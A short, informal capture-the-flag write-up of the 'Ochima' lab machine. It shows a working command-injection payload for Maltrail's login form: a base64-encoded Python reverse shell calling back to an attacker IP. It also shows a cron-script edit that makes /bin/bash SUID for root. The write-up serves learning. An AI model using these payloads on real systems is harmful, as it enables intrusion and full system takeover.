 # Ochima

I start off by enumerating for services:

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

I go on port 8338 and see a mailtrail service with a version number:

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

i try to login with default credentials but without success so i look for known exploits ->

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

which does not work so i try looking for other default credentials and i manage to login with admin:"changeme!" ... woops bad enumeration

So after enumeration i don't manage to find any interesting features so i go back on the exploit (bad enumeration here damn) and i look at what does the exploit, and i start to understand why it does not work so i do it by hand and end up making a working payload ->

```
;`echo+\"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNDkuNTEiLDgwKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=\"+|+base64+-d+|+sh`
```

That i needed to inject in the user parameter during the POST request to /login and had to have my listener on port 80

So i get my shell and launch linpeas and find some interesting backup files that are writable ->

<figure><img src="../../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

that looks like a smelly root cronjob![](<../../../.gitbook/assets/image (114).png>)

so i hit the script with a:

```
echo "chmod +s /bin/bash" >> /var/backups/etc_Backup.sh
```

<figure><img src="../../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

damn i'm starting to get a hold of cronjobs letsgo
